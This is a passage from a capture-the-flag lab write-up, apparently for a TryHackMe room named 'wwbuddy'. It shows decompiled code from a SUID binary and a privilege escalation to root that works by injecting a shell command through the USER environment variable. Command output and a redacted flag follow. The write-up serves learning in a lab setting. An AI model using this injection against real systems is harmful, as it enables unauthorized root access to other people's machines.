 ```c
      puts("Group updated");
      setuid(_Var1);
      system("newgrp developer");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

**As you can see, this binary will:**

- If UID is less than 1000, then we need to be a real user.
    - Otherwise, execute command `groups | grep developer`. If `developer` exist, then return `You are already a developer.`
    - Otherwise, **`__src` = environment varible `USER`, enable SUID stick bit, then execute command `usermod -G developer <USER>`**

**Armed with above information, we can exploit OS command injection:**
```
$ export USER="$USER;bash"
```

**Then execute `/bin/authenticate`:**
```
$ /bin/authenticate

root@wwbuddy:~# whoami;hostname;id;ip a
root
wwbuddy
uid=0(root) gid=1002(jenny) groups=1002(jenny)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:a7:ab:83:83:c7 brd ff:ff:ff:ff:ff:ff
    inet 10.10.72.179/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3497sec preferred_lft 3497sec
    inet6 fe80::a7:abff:fe83:83c7/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**root.txt:**
```
root@wwbuddy:~# cat /root/root.txt
THM{Redacted}
```
